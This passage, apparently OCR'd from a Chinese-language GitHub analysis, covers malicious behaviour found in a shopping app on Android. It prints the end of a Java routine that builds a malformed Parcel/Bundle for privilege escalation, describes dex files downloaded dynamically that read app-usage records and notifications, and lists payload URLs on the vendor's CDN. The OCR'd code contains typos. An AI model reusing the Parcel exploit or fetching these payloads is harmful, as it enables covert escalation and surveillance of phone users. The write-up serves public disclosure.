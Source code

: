  ```
	obtain2.writeInt(4);
	obtain2.writeString("android.content.Intent");
	obtain2.writeToParcel(obtain3, 0);
	obtain2.appendFrom(obtain3, 0, obtain3.dataSize());
	int dataPosition2 = obtain2.dataPosition();
	obtain2.setDataPosition(dataPosition2 - 4);
	obtain2.writeInit(dataPosition2 -dataPosition);
	obtain2.setdataPosition(dataPosition2);
	int dataSize = obtain2.dataSize();
	obtain.writeInt(dataSize);
	obtain.writeInt(1279544898);
	obtain.appendFrom(obtain2, 0, dataSize);
	obtain.setDataPosition(0);
	bundle.readFromParcel(obtain);
	return bundle;
}
```


提权后，就开始瞎搞了，动态下发dex，开始给自己保活，防卸载，然后搞数据，这部分代码比较通俗易懂，
比如：  
1a68d982e02fc22b464693a06f528fac.dex    读取用户手机上的app使用记录  
95cd95ab4d694ad8bdf49f07e3599fb3.dex    读取用户手机的应用通知，这一波各大公司app全灭了吧？  

自己去dex目录看吧。  

部分dex文件的下载地址（3月3日已被拼多多从CDN服务器上删除）：  
https://commfile.pddpic.com/galerie-go/spirit/sd1000/dex/f4247da0-6274-44eb-859a-b4c35ec0dd71.dex  
https://commfile.pddpic.com/galerie-go/spirit/sd1000/dex/f4247da0-6274-44eb-859a-b4c35ec0dd71.dex  
https://commfile.pddpic.com/galerie-go/spirit/sd1000/dex/f4247da0-6274-44eb-859a-b4c35ec0dd71.dex  
https://commfile.pddpic.com/galerie-go/spirit/sd1000/dex/f4247da0-6274-44eb-859a-b4c35ec0dd71.dex  
https://commfile.pddpic.com/galerie-go/spirit/sd1000/dynamic/45783d15-9f56-43a7-b3c7-930872f91c9b.dex  
https://commfile.pddpic.com/galerie-go/spirit/sd1000/dynamic/45783d15-9f56-43a7-b3c7-930872f91c9b.dex  
https://commfile.pddpic.com/galerie-go/spirit/sd1000/dynamic/45783d15-9f56-43a7-b3c7-930872f91c9b.dex  
https://commfile.pddpic.com/galerie-go/spirit/sd1000/dynamic/4a72c6bb-337c-46c4-8c9c-637efafdd1c6.dex  
https://commfile.pddpic.com/galerie-go/spirit/sd1000/dynamic/61517b68-7c09-4021-9aaa-cdebeb9549f2.dex  
https://commfile.pddpic.com/galerie-go/spirit/sd1000/dynamic/78afc1cd-60da-482b-90e7-4d5e72a01266.dex  
https://commfile.pddpic.com/galerie-go/spirit/sd1000/dynamic/f9b6b139-4516-4ac2-896d-8bc3eb1f2d03.dex
https://commfile.pddpic.com/galerie-go/spirit/sd1000/hw/6932a923-9f13-4624-bfea-1249ddfd5505.dex
https://commfile.pddpic.com/galerie-go/spirit/sd1000/hw/7c6e6702-e461-4315-8631-eee246aeba95.dex
https://commfile.pddpic.com/galerie-go/spirit/sd1000/hw/8c34f5dc-f04c-40ba-98d4-7aa7c364b65c.dex
https://commfile.pddpic.com/galerie-go/spirit/sd1000/hw/a3937709-b9cc-48fd-8918-163c9cb7c2df.dex
https://commfile.pddpic.com/galerie-go/spirit/sd1000/hw/a4d4dccf-1f8c-48e3-acd5-92cdf156e585.dex
https://commfile.pddpic.com/galerie-go/spirit/sd1000/hw/e9ded9d4-1c94-47d0-8e8b-94aa773af81c.dex
https://commfile.pddpic.com/galerie-go/spirit/sd1000/oppo/4569a29c-b5a8-4dcf-a3a6-0a2f0bfdd493.dex
https://commfile.pddpic.com/galerie-go/spirit/sd1000/oppo/538278f3-9f68-4fce-be10-12635b9640b2.dex
https://commfile.pddpic.com/galerie-go/spirit/sd1000/oppo/75dcc8ea-d0f9-4222-b8dd-2a83444f9cd6.dex
https://commfile.pddpic.com/galerie-go/spirit/sd1000/oppo/7c3507cc-c1a7-4c97-bfa3-e70b938d8f07.dex
https://commfile.pddpic.com/galerie-go/spirit/sd1000/oppo/7c3507cc-c1a7-4c97-bfa3-e70b938d8f07.dex
https://commfile.pddpic.com/galerie-go/spirit/sd1000/oppo/7ce6d296-a5bd-4718-9f79-543621ba5422.dex
https://commfile.pddpic.com/galerie-go/spirit/sd1000/oppo/e723d560-c2ee-461e-b2a1-96f85b614f2b.dex
https://commfile.pddpic.com/galerie-go/spirit/sd1000/oppo/f0139a82-8bb6-4f3e-a81b-70200fc38eaa.dex
https://commfile.pddpic.com/galerie-go/spirit/sd1000/sdlog/218a37ea-710d-49cb-b872-2a47a1115c69.dex
https://commfile.pddpic.com/galerie-go/spirit/sd1000/vivo/136d4651-df47-41b4-bb80-2ec0ab1bc775.dex
https://commfile.pddpic.com/galerie-go/spirit/sd1000/vivo/4f260398-e9d1-4390-bbb9-eeb49c07bf3c.dex
https://commfile.pddpic.com/galerie-go/spirit/sd1000/vivo/7dee63bd-ebad-4d74-a06f-90750aa18e18.dex
https://commfile.pddpic.com/galerie-go/spirit/sd1000/vivo/8b56d820-cac2-4ca0-8a3a-1083c5cca7ae.dex
https://commfile.pddpic.com/galerie-go/spirit/sd1000/vivo/cdcbd06b-8a32-4645-b9fe-c186b548c34e.dex